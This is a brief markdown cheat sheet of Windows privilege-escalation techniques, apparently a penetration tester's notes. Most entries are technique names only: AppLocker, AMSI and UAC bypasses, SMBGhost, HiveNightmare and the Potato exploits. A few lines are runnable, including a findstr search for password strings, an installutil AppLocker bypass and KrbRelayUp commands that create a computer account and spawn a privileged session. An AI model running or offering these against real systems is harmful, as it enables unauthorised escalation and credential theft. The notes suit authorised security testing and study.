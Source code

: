 # Privesc  
  
## Get Applocker info  
	Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe (dll/msi/...)    
  
## winpeas.exe  
  
  
## AMSI bypass  
	https://amsi.fail/  
	Reflection method  
	Patching amsi.dll  
  
## search password files  
	findstr /si 'password' *.txt *.xml *.docx  
	User account  
  
## AppLocker (whitelisting) bypass  
	use C:\Windows\Tasks  
	use C:\Windows\Temp  
	Powershell CLM bypass  
		installutil.exe /logfile= /LogToConsole=false /U C:\runme.exe  
	mshta.exe my.hta  
	MSBuild  
  
## User Access Control (UAC) bypass  
	FodHelper  
	WSReset  
	MSDT  
  
## SMBGhost CVE-2020-0796  
  
## CVE-2021-36934 (HiveNightmare/SeriousSAM)  
  
## service account (IIS/Mssql)   
(got SEImpersonate)  
	RoguePotato  
	Juicy Potato / Lovely Potato  
	🔥 PrintSpoofer  
  
## 🔥 KrbRelayUp  
	.\KrbRelayUp.exe relay -Domain <domain> -CreateNewComputerAccount -ComputerName <computer$> -ComputerPassword <password>  
		./KrbRelayUp.exe spawn -m rbcd -d <omdain> -dc <dc> -cn <computer_name>-cp <omputer_pass>  
  
